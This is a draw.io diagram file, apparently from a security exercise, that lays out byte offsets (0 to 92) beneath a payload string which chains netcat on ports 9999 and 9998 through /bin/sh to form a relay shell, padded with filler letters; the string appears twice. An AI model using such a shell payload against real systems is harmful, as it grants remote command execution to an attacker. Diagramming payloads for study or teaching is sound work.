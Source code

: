 <mxfile version="22.0.7" type="github">
  <diagram name="第 1 页" id="hiHuTb3BUYty62E2j1ty">
    <mxGraphModel dx="733" dy="491" grid="1" gridSize="10" guides="1" tooltips="1" connect="1" arrows="1" fold="1" page="1" pageScale="1" pageWidth="1169" pageHeight="827" math="0" shadow="0">
      <root>
        <mxCell id="0" />
        <mxCell id="1" parent="0" />
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-22" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="244" y="228" as="sourcePoint" />
            <mxPoint x="244" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-23" value="/bin/netcat#127.0.0.1#9999|#/bin/sh|#/bin/netcat#127.0.0.1#9998#AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;fontFamily=Times New Roman;fontStyle=1;fontSize=18;spacing=6;spacingTop=2;spacingBottom=2;spacingLeft=2;spacingRight=2;fontColor=#333333;" vertex="1" parent="1">
          <mxGeometry x="227" y="165" width="930" height="40" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-24" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="328" y="228" as="sourcePoint" />
            <mxPoint x="328" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-25" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="338" y="228" as="sourcePoint" />
            <mxPoint x="338" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-26" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="405" y="228" as="sourcePoint" />
            <mxPoint x="405" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-27" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="414" y="228" as="sourcePoint" />
            <mxPoint x="414" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-28" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="454" y="228" as="sourcePoint" />
            <mxPoint x="454" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-29" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="462" y="228" as="sourcePoint" />
            <mxPoint x="462" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-30" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="519" y="227" as="sourcePoint" />
            <mxPoint x="519" y="193.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-31" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="526" y="227" as="sourcePoint" />
            <mxPoint x="526" y="193.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-32" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="611" y="228" as="sourcePoint" />
            <mxPoint x="611" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-33" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="620" y="229" as="sourcePoint" />
            <mxPoint x="620" y="195.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-34" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="687" y="229" as="sourcePoint" />
            <mxPoint x="687" y="195.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-35" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="696" y="230" as="sourcePoint" />
            <mxPoint x="696" y="196.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-36" value="0" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="227" y="220" width="30" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-37" value="11" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="305" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-39" value="12" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="319" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-40" value="21" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="382" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-41" value="22" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="397" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-42" value="27" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="429" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-43" value="28" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="445" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-44" value="36" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="493" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-45" value="37" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="510" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-46" value="48" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="587" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-47" value="49" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="602" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-48" value="58" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="663" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-49" value="59" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="678" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-50" value="63" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="708" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-51" value="64" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="723" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-52" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="732" y="228" as="sourcePoint" />
            <mxPoint x="732" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-53" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="741" y="229" as="sourcePoint" />
            <mxPoint x="741" y="195.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-56" value="68" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="773" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-57" value="72" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="822" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-58" value="76" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="873" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-59" value="80" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="925" y="218" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-60" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="794" y="228" as="sourcePoint" />
            <mxPoint x="794" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-61" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="844" y="228" as="sourcePoint" />
            <mxPoint x="844" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-62" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="894" y="229" as="sourcePoint" />
            <mxPoint x="894" y="195.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-63" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="945" y="227" as="sourcePoint" />
            <mxPoint x="945" y="193.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-64" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="993" y="227" as="sourcePoint" />
            <mxPoint x="993" y="193.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-65" value="84" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="973" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-66" value="95" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="1020" y="138" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-67" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1039" y="228" as="sourcePoint" />
            <mxPoint x="1039" y="194.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-68" value="88" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="1019" y="220" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-69" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="1092" y="227" as="sourcePoint" />
            <mxPoint x="1092" y="193.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-70" value="92" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="1072" y="219" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-71" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="197" y="410" as="sourcePoint" />
            <mxPoint x="197" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-72" value="/bin/netcat#127.0.0.1#9999|#/bin/sh|#/bin/netcat#127.0.0.1#9998#AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;fontFamily=Times New Roman;fontStyle=1;fontSize=18;spacing=6;spacingTop=2;spacingBottom=2;spacingLeft=2;spacingRight=2;fontColor=#333333;" vertex="1" parent="1">
          <mxGeometry x="180" y="347" width="930" height="40" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-73" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="281" y="410" as="sourcePoint" />
            <mxPoint x="281" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-74" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="291" y="410" as="sourcePoint" />
            <mxPoint x="291" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-75" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="358" y="410" as="sourcePoint" />
            <mxPoint x="358" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-76" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="367" y="410" as="sourcePoint" />
            <mxPoint x="367" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-77" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="407" y="410" as="sourcePoint" />
            <mxPoint x="407" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-78" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="415" y="410" as="sourcePoint" />
            <mxPoint x="415" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-79" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="472" y="409" as="sourcePoint" />
            <mxPoint x="472" y="375.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-80" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="479" y="409" as="sourcePoint" />
            <mxPoint x="479" y="375.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-81" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="564" y="410" as="sourcePoint" />
            <mxPoint x="564" y="376.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-82" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="573" y="411" as="sourcePoint" />
            <mxPoint x="573" y="377.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-83" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="640" y="411" as="sourcePoint" />
            <mxPoint x="640" y="377.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-84" value="" style="endArrow=classic;html=1;rounded=0;entryX=0.05;entryY=1.067;entryDx=0;entryDy=0;entryPerimeter=0;" edge="1" parent="1">
          <mxGeometry width="50" height="50" relative="1" as="geometry">
            <mxPoint x="649" y="412" as="sourcePoint" />
            <mxPoint x="649" y="378.68" as="targetPoint" />
          </mxGeometry>
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-85" value="0" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="180" y="402" width="30" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-86" value="11" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="258" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-87" value="12" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="272" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-88" value="21" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="335" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-89" value="22" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="350" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-90" value="27" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="382" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-91" value="28" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="398" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-92" value="36" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="446" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-93" value="37" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="463" y="401" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-94" value="48" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="540" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-95" value="49" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="555" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-96" value="58" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="616" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-97" value="59" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="631" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-98" value="63" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="661" y="402" width="40" height="30" as="geometry" />
        </mxCell>
        <mxCell id="ZPE9J0E1WmX5tTQRSp_o-99" value="64" style="text;html=1;align=center;verticalAlign=middle;resizable=0;points=[];autosize=1;strokeColor=none;fillColor=none;" vertex="1" parent="1">
          <mxGeometry x="676" y="402" width="40" height="30" as="geometry" />
        </mxCell>
